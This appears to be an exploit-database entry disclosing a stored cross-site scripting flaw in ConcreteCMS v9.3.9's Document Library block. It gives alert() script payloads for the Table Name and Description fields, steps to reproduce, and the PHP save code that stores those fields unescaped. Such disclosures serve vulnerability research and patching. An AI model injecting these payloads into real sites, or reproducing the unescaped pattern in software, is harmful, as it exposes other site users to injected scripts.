 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Table Name field、Table Description field when adding a Document Library block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Name');</script>
<script>alert('Description');</script>
```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Document Library block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Table Name field、Table Description field and then click ADD,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        $args += [
            'folderID' => null,
            'viewProperties' => null,
            'searchProperties' => null,
            'expandableProperties' => null,
            'fsID' => null,
            'setMode' => null,
            'tags' => null,
            'orderBy' => null,
            'displayLimit' => null,
            'maxThumbWidth' => null,
            'maxThumbHeight' => null,
            'heightMode' => null,
            'downloadFileMethod' => null,
            'fixedHeightSize' => null,
            'headerBackgroundColor' => null,
            'addFilesToSetID' => 0,
            'headerBackgroundColorActiveSort' => null,
            'headerTextColor' => null,
            'tableName' => '',
            'tableDescription' => '',
            'rowBackgroundColorAlternate' => null,
        ];

        $data = [
            'folderID' => $args['folderID'],
            'viewProperties' => json_encode(is_array($args['viewProperties']) ? $args['viewProperties'] : []),
            'searchProperties' => json_encode(is_array($args['searchProperties']) ? $args['searchProperties'] : []),
            'expandableProperties' => json_encode(is_array($args['expandableProperties']) ? $args['expandableProperties'] : []),
            'setIds' => json_encode(is_array($args['fsID']) ? $args['fsID'] : []),
            'setMode' => $args['setMode'] == 'all' ? 'all' : 'any',
            'onlyCurrentUser' => empty($args['onlyCurrentUser']) ? 0 : 1,
            'allowInPageFileManagement' => empty($args['allowInPageFileManagement']) ? 0 : 1,
            'allowFileUploading' => empty($args['allowFileUploading']) ? 0 : 1,
            'tags' => $args['tags'],
            'orderBy' => $args['orderBy'],
            'displayLimit' => $args['displayLimit'],
            'displayOrderDesc' => empty($args['displayOrderDesc']) ? 0 : 1,
            'maxThumbWidth' => (int) $args['maxThumbWidth'],
            'maxThumbHeight' => (int) $args['maxThumbHeight'],
            'enableSearch' => empty($args['enableSearch']) ? 0 : 1,
            'heightMode' => $args['heightMode'] == 'fixed' ? 'fixed' : 'auto',
            'downloadFileMethod' => $args['downloadFileMethod'] == 'force' ? 'force' : 'browser',
            'fixedHeightSize' => (int) $args['fixedHeightSize'],
            'headerBackgroundColor' => $args['headerBackgroundColor'],
            'addFilesToSetID' => 0,
            'headerBackgroundColorActiveSort' => $args['headerBackgroundColorActiveSort'],
            'headerTextColor' => $args['headerTextColor'],
            'tableName' => $args['tableName'],
            'tableDescription' => $args['tableDescription'],
            'tableStriped' => empty($args['tableStriped']) ? 0 : 1,
            'rowBackgroundColorAlternate' => empty($args['tableStriped']) ? '' : $args['rowBackgroundColorAlternate'],
            'hideFolders' => (int) !filter_var(array_get($args, 'showFolders'), FILTER_VALIDATE_BOOLEAN),
        ];
        if ((int) $args['addFilesToSetID'] > 0) {
            $fs = \FileSet::getByID($args['addFilesToSetID']);
            if (is_object($fs)) {
                $fsp = new \Permissions($fs);
                if ($fsp->canAddFiles() && $fsp->canSearchFiles()) {
                    $data['addFilesToSetID'] = $fs->getFileSetID();
                }
            }
        }
        parent::save($data);
    }
```